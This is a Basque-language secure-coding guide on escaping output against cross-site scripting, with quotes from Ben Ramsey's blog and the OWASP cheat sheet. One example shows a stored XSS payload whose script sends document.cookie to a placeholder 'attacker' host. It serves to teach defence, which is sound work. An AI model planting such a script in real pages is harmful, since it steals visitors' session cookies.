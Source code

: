 # Ihes irteera

### Azalpena

HTML eta beste web lengoaia batzuek kode egikarigarriarekin nahasten dute edukia. HTML paragrafo bakar batek datuen irudikapen bisuala izan dezake JavaScript egikaritzeko argibideekin batera. HTMLa kargatzean edo APItik datuak itzultzean, gure ustez eduki hutsa denak JavaScript kodea har lezake, nabigatzaileak interpretatu eta egikaritzeko modukoa. Hori gertatzen da, adibidez, erasotzaile batek datu base batean txertatutako edukia kargatzen dugunean, adibidez `<div><script>//kode maltzurra</script></div>`. Hori arindu daiteke arakatzaileari aginduz konfiantzazko datuen zatiak edukitzat soilik tratatzeko eta inoiz ez interpretatzeko. Teknika horri ihes egitea deritzo. Npm liburutegi eta HTML txantiloi motor askok ihes egiteko baliabideak eskaintzen dituzte (adibidez: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi))). HTML edukiak ez ezik CSSk eta JavaScriptek ere ihes egin beharko lukete



### Kode adibidea: ez jarri fidagarritasunik gabeko daturik zure HTMLan

```html
<script>...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...</script>   zuzenean scriptean

 <!--...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...-->             HTML komentario baten barruan

 <div ...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...=test />       ezaugarri izen batean

 <INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN... href="/test" />   tag izen batean

 <style>...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...</style>   CSSan zuzenean

```

### Kode adibidea: datu base batean txerta daitekeen eduki kaltegarria

```html
<div>
  <b>Komentario bat</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Blog aipua: "Pertsonaiak interpretatuak izatea nahi ez dugunean"

[benramsey.com](https://benramsey.com/articles/escape-output/) bloga:
> Datuak modu askotara irten daitezke  zure aplikaziotik: web nabigatzaile bati bidalitako HTML moduan, SQL datu basera bidalita, XML RSS irakurgailura bidalita, WML haririk gabeko gailu batera bidalita, etab. Aukerak mugagabeak dira. Horietako bakoitzak bere karaktere bereziak ditu, multzoka jasotzen dituena, eta  jasotako gainerako testu arruntaren aldean desberdin interpretatzen dena. Batzuetan, karaktere berezi horiek bidali nahi ditugu interpretatuak izan ahal izateko (HTML nabigatzaile batera bidalitako HTML etiketak, adibidez); beste batzuetan (erabiltzaileek edo beste iturri batzuek egindako sarreren kasuan), ez dugu nahi karaktere horiek interpretatuak izan daitezen, eta, beraz, ihes egin behar diegu.

> Ihes egiteari kodetzea ere esaten zaio batzuetan: ihes egitea edo kodetzea,  laburbilduz,, datuak egikaritu edo interpretatuko ez diren moduan irudikatzeko prozesua da, alegia. Adibidez, HTMLk honako testu hau letra lodiz idatziko du web nabigatzaile batean `<strong>`etiketek esanahi berezia dutelako:
> ```html
> <strong>Testu hau letra lodiz idatzita dago.<strong>
> ```
>
> Baina, demagun etiketak nabigatzailean kargatu nahi ditudala eta haien interpretazioa ekidin nahi dudala. Orduan, HTMLan esanahi berezia duten parentesi angeluarretatik ihes egin behar dut. Hona hemen ihes egindako HTMLa:
>
> ```html
> &lt;strong&gt;Testu hau letra lodiz idatzita dago.&lt;/strong&gt;`
> ```

<br/><br/>

### Blog aipua:  "OWASPek segurtasunera bideratutako kodeketa liburutegia erabiltzea gomendatzen du"

OWASP [XSS (Cross Site Scripting) Prebentzio tranpa orria](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) bloga:
> "Kodetzaile horiek idaztea ez da oso zaila, baina tranpa ugari daude ezkutuan. Adibidez, Javascripten bezalako lasterbide batzuk" erabiltzeko tentazioa izan dezakezu. Hala ere, balio horiek arriskutsuak dira, eta nabigatzailean habiaratutako analizatzaileek oker interpreta ditzakete. Baliteke  zuri ahaztea ihes egitea ihes pertsonaiarengandik, erasotzaileek erabil dezaketeena neutralizatzeko zure segurtasun ahaleginak. **OWASPek gomendatzen du segurtasunera bideratutako kodeketa liburutegiak erabiltzea, arauak behar bezala ezartzen direla ziurtatzeko**."

<br/><br/>

### Blog aipua: "Ihes sintaxia erabili behar duzu HTML zatian"

OWASP [XSS (Cross Site Scripting) Prebentzio tranpa orria](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) bloga:
> "Baina HTML entitate kodeketak ez du ondo funtzionatzen `<script>` etiketa baten barruan datu ez fidagarriak jartzen badituzu edozein lekutan, edo onmouseover bezalako gertaeren kudeatzailearen atributu batean edo CSS barruan, edo URL batean. Beraz, toki guztietan HTML entitate kodeketaren bat erabiltzen baduzu ere, ziurrena da XSSen erasoekiko zaurgarria izaten jarraituko duela. Ihes sintaxia erabili behar duzu fidagarriak ez diren datuak jartzen ari zaren HTML dokumentuaren zatian."
